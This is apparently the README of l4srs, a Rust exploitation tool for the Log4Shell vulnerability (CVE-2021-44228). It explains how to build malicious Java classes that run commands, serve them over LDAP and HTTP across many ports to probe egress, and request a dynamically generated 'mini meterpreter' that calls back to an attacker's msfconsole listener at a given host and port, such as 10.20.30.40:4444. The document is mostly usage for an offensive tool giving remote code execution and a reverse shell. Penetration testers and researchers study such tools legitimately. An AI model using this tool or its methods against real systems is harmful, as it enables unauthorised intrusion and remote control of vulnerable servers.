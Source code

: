 # l4srs
Rust implementation of the Log 4 Shell (log 4 j - CVE-2021-44228)

to build run `cargo +nightly build`

This version will let you build command classes, dynamically serve
a mini meterpreter that runs in a thread of the exploited Java app,
and runs the LDAP and HTTP servers.  This version servers both the
LDAP and HTTP requests from the same port.

You can run on multiple ports simultaneously to attempt to see 
what ports may be available for egress on for the target machine.

If the request is not LDAP or HTTP it can then proxy the request
to another machine, again on the same port.  If the target machine
has only one egress port you can server LDAP, HTTP and use the same
port to proxy the meterpreter connection to another local port or
another machine.

**This version no longer requires javac to be installed.  It still
allows for dynamic "class building" but does so by altering 
precompiled classes embeded in the executable.**

This version adds the top 100 and top 1000 ports as defined by nmap.
use the --pC100 or the --pC1000 options.

Typical use case is to build command class(es) then run the server.
`l4srs build -c Cmd1 -l firefox -w Calc.exe`
`l4srs build -c TouchMe -l "touch /tmp/me"`

you can then request Cmd1 and this will launch firefox on linux 
and Calc on Windows.  It you request TouchMe it will touch 
/tmp/me on linux and on windows it will not execute anything.

you can then run `l4srs run --pC100` to start the server on the
top 100 ports and can serve Cmd1 or TouchMe.

Additionaly if you request MM:Host:port it will dynamically
create a mini meterpreter class that will reach out to the
host and port in the request.  If your msfconsole is running
on 10.20.30.40 on port 4444 you would request MM:10.20.30.40:4444
this is not built with the build command it is dymaically built
on the request.

This version allows for the building and serving of classes from
an in memory cache.  All of the dynamic MiniMeterpreter classes
no longer touch the file system.  Additionally 2 new flags are
added. The first is --no_fs which will enforce that we never
server any files from the file system.  The other --allow_cmd
will enable dynamic class build by hitting /build_cmd from any
open port with a post request and a json body with fields :
class_name, l_cmd, w_cmd
